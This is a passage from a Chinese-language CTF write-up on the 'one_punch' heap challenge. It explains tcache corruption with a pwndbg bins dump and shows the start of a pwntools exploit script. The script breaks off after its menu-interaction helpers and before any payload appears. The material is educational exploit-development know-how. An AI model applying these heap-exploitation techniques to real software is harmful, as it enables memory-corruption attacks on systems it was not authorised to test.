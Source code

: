 这样的话一切条件都有了,真正的**one_punch**

还有一点要注意的是，我们用这个方法把`heap+0x30`的地方改写了，这样的话其实`tcache`会 corrupt 掉：

```
pwndbg> bins
tcachebins
0x100 [  7]: 0x563a59056000 —▸ 0x563a59053760 —▸ 0x563a59053660 —▸ 0x563a59053560 —▸ 0x563a59053460 —▸ 0x563a59053360 —▸ 0x563a59053260 ◂— 0x0
0x1d0 [-112]: 0x0
0x1e0 [-19]: 0x0
0x1f0 [-41]: 0x0
0x200 [-45]: 0x0
0x210 [-99]: 0x0
0x220 [125]: 0x0
0x410 [  7]: 0x563a590550c0 —▸ 0x563a59054cb0 —▸ 0x563a590548a0 —▸ 0x563a59054490 —▸ 0x563a59054080 —▸ 0x563a59053c70 —▸ 0x563a59053860 ◂— 0x0

```

所以我们要在攻击前先申请一个`0x217`大小的堆块，然后释放掉，在攻击

exp为：

```python
from pwn import *

context.arch = 'amd64'

def debug(addr,PIE=True):
	if PIE:
		text_base = int(os.popen("pmap {}| awk '{{print $1}}'".format(p.pid)).readlines()[1], 16)
		gdb.attach(p,'b *{}'.format(hex(text_base+addr)))
	else:
		gdb.attach(p,"b *{}".format(hex(addr)))
		

def cmd(c):
	p.recvuntil("> ")
	p.sendline(str(c))
	
def add(idx,name):
	cmd(1)
	p.recvuntil("idx: ")
	p.sendline(str(idx))
	p.recvuntil("name: ")
	p.send(name)
def dele(idx):
	cmd(4)
	p.recvuntil("idx: ")
	p.sendline(str(idx))

def show(idx):
	cmd(3)
	p.recvuntil("idx: ")
	p.sendline(str(idx))

def edit(idx,name):
	cmd(2)
	p.recvuntil("idx: ")
	p.sendline(str(idx))
	p.recvuntil("name: ")
	p.send(name)

def main(host,port=26976):
	global p
```